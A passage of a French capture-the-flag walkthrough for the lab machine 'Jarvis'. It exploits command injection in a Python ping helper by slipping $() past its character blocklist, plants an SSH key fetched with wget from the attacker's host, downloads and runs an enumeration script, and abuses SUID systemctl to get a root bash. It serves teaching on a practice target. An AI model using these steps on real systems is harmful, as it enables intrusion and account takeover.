Tu affiches maintenant le contenu du script afin de comprendre son fonctionnement :

```bash
cat /var/www/Admin-Utilities/simpler.py
```

```python
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    '''
    print(message)

def show_header():
    print('''***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************
''')

def show_statistics():
    path = '/home/pepper/Web/Logs/'
    print('Statistics\n-----------')
    listed_files = listdir(path)
    count = len(listed_files)
    print('Number of Attackers: ' + str(count))
    level_1 = 0
    dat = datetime(1, 1, 1)
    ip_list = []
    reks = []
    ip = ''
    req = ''
    rek = ''
    for i in listed_files:
        f = open(path + i, 'r')
        lines = f.readlines()
        level2, rek = get_max_level(lines)
        fecha, requ = date_to_num(lines)
        ip = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if fecha > dat:
            dat = fecha
            req = requ
            ip2 = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if int(level2) > int(level_1):
            level_1 = level2
            ip_list = [ip]
            reks=[rek]
        elif int(level2) == int(level_1):
            ip_list.append(ip)
            reks.append(rek)
        f.close()
	
    print('Most Risky:')
    if len(ip_list) > 1:
        print('More than 1 ip found')
    cont = 0
    for i in ip_list:
        print('    ' + i + ' - Attack Level : ' + level_1 + ' Request: ' + reks[cont])
        cont = cont + 1
	
    print('Most Recent: ' + ip2 + ' --> ' + str(dat) + ' ' + req)
	
def list_ip():
    print('Attackers\n-----------')
    path = '/home/pepper/Web/Logs/'
    listed_files = listdir(path)
    for i in listed_files:
        f = open(path + i,'r')
        lines = f.readlines()
        level,req = get_max_level(lines)
        print(i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3] + ' - Attack Level : ' + level)
        f.close()

def date_to_num(lines):
    dat = datetime(1,1,1)
    ip = ''
    req=''
    for i in lines:
        if 'Level' in i:
            fecha=(i.split(' ')[6] + ' ' + i.split(' ')[7]).split('\n')[0]
            regex = '(\d+)-(.*)-(\d+)(.*)'
            logEx=re.match(regex, fecha).groups()
            mes = to_dict(logEx[1])
            fecha = logEx[0] + '-' + mes + '-' + logEx[2] + ' ' + logEx[3]
            fecha = datetime.strptime(fecha, '%Y-%m-%d %H:%M:%S')
            if fecha > dat:
                dat = fecha
                req = i.split(' ')[8] + ' ' + i.split(' ')[9] + ' ' + i.split(' ')[10]
    return dat, req
			
def to_dict(name):
    month_dict = {'Jan':'01','Feb':'02','Mar':'03','Apr':'04', 'May':'05', 'Jun':'06','Jul':'07','Aug':'08','Sep':'09','Oct':'10','Nov':'11','Dec':'12'}
    return month_dict[name]
	
def get_max_level(lines):
    level=0
    for j in lines:
        if 'Level' in j:
            if int(j.split(' ')[4]) > int(level):
                level = j.split(' ')[4]
                req=j.split(' ')[8] + ' ' + j.split(' ')[9] + ' ' + j.split(' ')[10]
    return level, req
	
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)

if __name__ == '__main__':
    show_header()
    if len(sys.argv) != 2:
        show_help()
        exit()
    if sys.argv[1] == '-h' or sys.argv[1] == '--help':
        show_help()
        exit()
    elif sys.argv[1] == '-s':
        show_statistics()
        exit()
    elif sys.argv[1] == '-l':
        list_ip()
        exit()
    elif sys.argv[1] == '-p':
        exec_ping()
        exit()
    else:
        show_help()
        exit()

```


Le programme est écrit en Python 3 et propose plusieurs options :

```text
-h / --help : afficher l’aide
-s          : afficher des statistiques
-l          : lister les adresses IP des attaquants
-p          : envoyer un ping vers une adresse IP
```

En examinant rapidement ces possibilités, tu constates que les options `-h`, `-s` et `-l` se contentent d’afficher des informations.

La seule option permettant réellement à l’utilisateur de fournir une valeur au script est donc :

```text
-p
```

Elle constitue dès lors la piste la plus intéressante à analyser.

Lorsqu’elle est utilisée, le bloc principal appelle la fonction `exec_ping()` :

```python
elif sys.argv[1] == '-p':
    exec_ping()
    exit()
```

Cette fonction contient le code suivant :

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

Le script demande d’abord à l’utilisateur de saisir une adresse IP :

```text
Enter an IP:
```

Il vérifie ensuite que la valeur fournie ne contient aucun des caractères ou opérateurs placés dans la liste `forbidden` :

```python
['&', ';', '-', '`', '||', '|']
```

Lorsqu’un élément interdit est détecté, le programme affiche :

```text
Got you
```

puis s’arrête.

Dans le cas contraire, la valeur saisie est directement concaténée à la commande suivante :

```python
os.system('ping ' + command)
```

Le programme construit donc une chaîne équivalente à :

```bash
ping VALEUR_SAISIE
```

puis la transmet à un interpréteur de commandes avec `os.system()`.

La saisie n’est cependant jamais vérifiée comme une véritable adresse IP. Elle est seulement comparée à une liste limitée de caractères interdits avant d’être intégrée directement dans une commande système.

Il faut donc rechercher une syntaxe comprise par le shell qui permettrait d’ajouter une commande sans employer les caractères filtrés.

#### Identification d’une injection de commandes

Le filtrage mis en place par le script bloque plusieurs séparateurs classiques, mais il n’interdit pas la syntaxe de substitution de commandes du shell :

```bash
$(commande)
```

Cette syntaxe demande au shell d’exécuter d’abord la commande placée entre les parenthèses, puis de remplacer l’expression par sa sortie.

Tu lances le script avec l’option `-p`, en demandant son exécution avec les privilèges de l’utilisateur `pepper` :

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```

Le programme affiche alors :

```text
Enter an IP:
```

Tu fournis la saisie suivante :

```bash
$(id)
```

Le script construit alors une commande équivalente à :

```bash
ping $(id)
```

La commande `id` est d’abord exécutée par le shell. Sa sortie remplace ensuite l’expression `$(id)` dans la commande transmise à `ping`.

La commande devient donc, en pratique, quelque chose de proche de :

```text
ping uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
```

Comme cette valeur n’est pas une adresse IP valide, `ping` tente d’interpréter certains éléments comme des noms d’hôtes et finit par afficher une erreur :

```text
ping: groups=1000(pepper): Temporary failure in name resolution
```

Ce message est particulièrement révélateur : la chaîne `groups=1000(pepper)` provient directement de la sortie de `id`. Cela confirme que la commande a bien été exécutée avec les privilèges de l’utilisateur `pepper`.

L’injection de commandes est donc validée. La liste noire du script reste insuffisante, car elle ne bloque pas la substitution de commandes avec `$()`.

Il reste maintenant à exploiter cette faiblesse pour exécuter une commande plus utile sous l’identité de `pepper`.

#### Installation d’une clé SSH pour l’utilisateur `pepper`

L’injection de commandes permet désormais d’exécuter des instructions avec les privilèges de `pepper`. Plutôt que de conserver un shell limité, tu vas utiliser cette possibilité pour installer une clé SSH dans son répertoire personnel et obtenir une session complète.

Depuis ton répertoire de travail sur Kali, tu génères une paire de clés dédiée à Jarvis :

```bash
ssh-keygen -t ed25519 -f pepper_jarvis -C 'pepper@jarvis' -N ''
```

Deux fichiers sont créés :

```text
pepper_jarvis
pepper_jarvis.pub
```

La clé privée reste sur Kali. La clé publique doit être placée dans le fichier suivant sur Jarvis :

```text
/home/pepper/.ssh/authorized_keys
```

Pour simplifier son transfert, tu démarres un petit serveur HTTP depuis le répertoire contenant la clé publique :

```bash
python3 -m http.server 8000
```

Depuis le reverse shell, tu crées ensuite un script chargé d’installer cette clé. Tu remplaces `10.10.x.x` par l’adresse IP de ton interface VPN `tun0` :

```bash
cat > /tmp/install_pepper_key.sh <<'EOF'
#!/bin/sh

mkdir -p /home/pepper/.ssh
chmod 700 /home/pepper/.ssh

wget -qO /home/pepper/.ssh/authorized_keys \
  http://10.10.x.x:8000/pepper_jarvis.pub

chmod 600 /home/pepper/.ssh/authorized_keys
EOF
```

Tu rends le script exécutable :

```bash
chmod 755 /tmp/install_pepper_key.sh
```

Il reste à le faire exécuter par `pepper` grâce à l’injection identifiée dans `simpler.py` :

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```

À l’invite, tu saisis :

```bash
$(/tmp/install_pepper_key.sh)
```

Le script est alors exécuté avec les privilèges de `pepper`. Il crée son répertoire `.ssh`, télécharge la clé publique et applique les permissions attendues.

Depuis Kali, tu sécurises la clé privée :

```bash
chmod 600 pepper_jarvis
```

Tu peux ensuite ouvrir une session SSH en tant que `pepper` :

```bash
ssh -i pepper_jarvis pepper@jarvis.htb
```

Après validation de l’empreinte du serveur, tu obtiens une session complète :

```text
pepper@jarvis:~$
```

Tu vérifies le contexte d’exécution :

```bash
whoami
id
tty
pwd
pepper
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
/dev/pts/0
/home/pepper
```

Tu disposes désormais d’une véritable session SSH en tant que `pepper`, avec un terminal pleinement interactif. Cette session constitue un point de départ plus fiable pour poursuivre l’énumération locale et rechercher une élévation de privilèges vers `root`.

#### Lecture de `user.txt`

Maintenant que tu disposes d’un shell en tant que `pepper`, tu peux accéder à son répertoire personnel et lire le premier drapeau de la machine :

```bash
cat /home/pepper/user.txt
3c19xxxxxxxxxxxxxxxxxxxxxxxxf975
```

L’accès au compte `pepper` est donc validé. Tu peux désormais passer à l'escalade de privilèges vers `root`.


---

## Escalade de privilèges



### Vérification des droits `sudo`

La première vérification consiste à examiner les commandes que l’utilisateur `pepper` peut éventuellement exécuter avec `sudo` :

```bash
sudo -l
```

La commande demande cependant le mot de passe de `pepper` :

```text
[sudo] password for pepper:
```

Comme tu ne connais pas ce mot de passe, tu ne peux pas exploiter directement une éventuelle règle `sudo`.

### Recherche de capabilities Linux

Tu recherches ensuite les fichiers auxquels des capabilities Linux particulières ont été attribuées :

```bash
getcap -r / 2>/dev/null
```

La commande ne retourne aucun résultat.

Aucun binaire disposant de capabilities exploitables n’est donc présent sur la machine.

### Recherche des binaires SUID

En suivant la recette , tu poursuis l’énumération avec `suid3num.py`.

Depuis Kali, place-toi dans le répertoire contenant le script et démarre un serveur HTTP :

```bash
python3 -m http.server 8000
```

Depuis la session SSH ouverte avec `pepper`, télécharge ensuite le script dans `/dev/shm` :

```bash
cd /dev/shm
wget http://10.10.15.96:8000/suid3num.py
```

Le répertoire `/dev/shm` convient bien à ce type de fichier temporaire. Il est généralement accessible en écriture par les utilisateurs non privilégiés et son contenu disparaît au redémarrage de la machine.

Exécute ensuite le script :

```bash
python3 suid3num.py
```

La sortie de `suid3num.py` met directement en évidence `/bin/systemctl` comme binaire SUID inhabituel et potentiellement exploitable :

```text
[~] Custom SUID Binaries (Interesting Stuff)
------------------------------
/bin/systemctl
------------------------------

[#] SUID Binaries in GTFO bins list (Hell Yeah!)
------------------------------
/bin/systemctl -~> https://gtfobins.github.io/gtfobins/systemctl/#suid
------------------------------

[&] Manual Exploitation (Binaries which create files on the system)
------------------------------

[&] Systemctl ( /bin/systemctl )

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF

/bin/systemctl link $TF
/bin/systemctl enable --now $TF
------------------------------
```

Le script t’indique donc immédiatement que `/bin/systemctl` constitue la piste intéressante et te fournit une procédure permettant de vérifier son exploitation.

### Validation de l’exécution privilégiée

Tu commences par créer un fichier de service temporaire :

```bash
TF=$(mktemp).service
```

La variable `TF` contient maintenant un chemin semblable à celui-ci :

```text
/tmp/tmp.Abc123.service
```

Crée ensuite une unité `systemd` de type `oneshot` :

```bash
cat > "$TF" <<'EOF'
[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"

[Install]
WantedBy=multi-user.target
EOF
```

Le type `oneshot` indique que le service doit exécuter une commande unique, puis se terminer.

La directive suivante constitue l’élément essentiel :

```ini
ExecStart=/bin/sh -c "id > /tmp/output"
```

Lors du démarrage du service, la commande `id` sera exécutée et son résultat sera enregistré dans `/tmp/output`.

Tu dois maintenant rendre cette unité accessible à `systemd` :

```bash
/bin/systemctl link "$TF"
```

La commande `link` crée un lien symbolique vers le fichier temporaire dans le répertoire utilisé par `systemd`.

Active ensuite le service et démarre-le immédiatement :

```bash
/bin/systemctl enable --now "$TF"
```

L’option `enable` configure le service pour qu’il soit associé à la cible définie dans la section `[Install]`, tandis que l’option `--now` demande son démarrage immédiat.

Tu peux alors vérifier si le fichier `/tmp/output` a bien été créé :

```bash
cat /tmp/output
```

Le résultat indique que la commande a été exécutée avec les privilèges de `root` :

```text
uid=0(root) gid=0(root) groups=0(root)
```

Cette vérification confirme que l’utilisateur `pepper` peut utiliser le binaire SUID `/bin/systemctl` pour faire exécuter une commande arbitraire par `systemd` avec l’UID `0`.

### Création d’un Bash SUID appartenant à root

Maintenant que l’exécution privilégiée est confirmée, tu peux créer une nouvelle unité chargée de générer une copie SUID de Bash.

Commence par créer un nouveau nom de service temporaire :

```bash
TF=$(mktemp).service
```

Crée ensuite le contenu de l’unité :

```bash
cat > "$TF" <<'EOF'
[Service]
Type=oneshot
ExecStart=/bin/sh -c "cp /bin/bash /tmp/bash-root; chown root:root /tmp/bash-root; chmod 4755 /tmp/bash-root"

[Install]
WantedBy=multi-user.target
EOF
```

La directive `ExecStart` exécute successivement trois commandes :

```bash
cp /bin/bash /tmp/bash-root
```

Cette première commande crée une copie de Bash dans `/tmp`.

```bash
chown root:root /tmp/bash-root
```

La deuxième attribue le fichier à l’utilisateur et au groupe `root`.

```bash
chmod 4755 /tmp/bash-root
```

La troisième applique les permissions `4755`.

Le premier chiffre, `4`, active le bit SUID. Les trois chiffres suivants, `755`, accordent les permissions classiques suivantes :

```text
rwxr-xr-x
```

Enregistre ensuite la nouvelle unité auprès de `systemd` :

```bash
/bin/systemctl link "$TF"
```

Puis active-la et démarre-la immédiatement :

```bash
/bin/systemctl enable --now "$TF"
```

Une fois le service exécuté, vérifie les permissions de la copie de Bash :

```bash
ls -l /tmp/bash-root
```

Tu dois obtenir une ligne semblable à celle-ci :

```text
-rwsr-xr-x 1 root root ... /tmp/bash-root
```

Le fichier appartient bien à `root`.

Le caractère `s` à la place du `x` dans les permissions du propriétaire confirme que le bit SUID est actif :

```text
-rwsr-xr-x
```

### Obtention du shell root

Tu peux maintenant exécuter cette copie de Bash avec l’option `-p`, afin de conserver les privilèges effectifs hérités du bit SUID :

```bash
/tmp/bash-root -p
```

L’invite de commande change et indique que tu utilises désormais le Bash privilégié :

```bash
bash-root-4.4#
```

Vérifie alors ton identité :

```bash
bash-root-4.4# id
uid=1000(pepper) gid=1000(pepper) euid=0(root) groups=1000(pepper)
```

L’UID réel reste celui de `pepper`, mais l’UID effectif `euid=0(root)` confirme que les commandes exécutées depuis ce shell disposent des privilèges de `root`.

Tu peux également le confirmer avec :

```bash
bash-root-4.4# whoami
root
```

Il ne te reste plus qu’à récupérer le drapeau final :

```bash
bash-root-4.4# cat /root/root.txt
931cxxxxxxxxxxxxxxxxxxxxxxxx21ae
```


L’escalade de privilèges est maintenant terminée : tu as obtenu un shell avec les privilèges de `root`.

## Conclusion

La compromission de Jarvis repose sur une chaîne d’exploitation progressive combinant plusieurs faiblesses distinctes. Une injection SQL permet d’obtenir des informations sensibles et d’accéder à phpMyAdmin, utilisé ensuite pour déposer un webshell et obtenir une première exécution de commandes avec les privilèges de `www-data`.

L’analyse des droits `sudo` révèle ensuite qu’un script Python peut être exécuté en tant que `pepper`. Une injection de commandes dans ce script permet de préparer un accès SSH stable à ce compte et de poursuivre l’énumération locale.

Enfin, la présence du bit SUID sur `/bin/systemctl` permet de créer et de démarrer une unité `systemd` exécutée avec les privilèges de `root`. Le service génère une copie SUID de Bash, donnant accès à un shell privilégié et permettant de prendre le contrôle complet de la machine.

Jarvis illustre ainsi l’importance de considérer chaque faiblesse comme un maillon potentiel d’une chaîne plus large, depuis l’application web jusqu’à la compromission totale du système.


---


